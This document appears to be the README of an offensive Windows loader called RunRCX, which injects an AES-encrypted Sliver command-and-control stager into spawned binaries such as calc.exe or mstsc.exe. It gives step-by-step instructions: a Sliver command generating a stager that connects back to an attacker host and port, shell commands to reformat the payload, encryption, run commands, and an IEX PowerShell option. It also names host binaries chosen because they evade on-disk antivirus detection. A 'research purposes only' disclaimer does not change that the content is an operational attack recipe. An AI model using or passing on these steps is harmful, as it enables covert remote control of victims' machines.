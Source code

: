 This is all for research purposes only. Tested in an isolated lab environment.

AddressOfEntryPoint points to payload address within the created process (calc.exe by default; must change in source code and recompile).

Target windows binaries that didn't get flagged on disk:
------------------
C:\\Windows\\System32\\mstsc.exe
C:\\Windows\\System32\\calc.exe

Payload requirement:
-----
Payload must be stager from sliver. .Example:
```
generate stager --lhost 192.168.0.55 --lport 4444 --os windows -a amd64 -f csharp --save /path/hexfile.txt
```

Strip the output file so it looks like an array; no new line characters, no spaces:
```
cat hexfile.txt | tr -d ' ' | tr -d '\n' | sed -r 's/^.*\{//' | sed -r 's/\};$//'
```

Then the payload must be formated with AES_Encrypt_Byte_Buffer.exe. Outputs b64Output.txt.

I imagine there's some size restrictions here if using the env variable command below.

Usage:
---
Load from a file:
```
.\RunRCX.exe .\b64Output.txt 1
```

Load from variable:
```
.\RunRCX.exe $base64code 2
```

Also can run getpayload.ps1 with IEX.
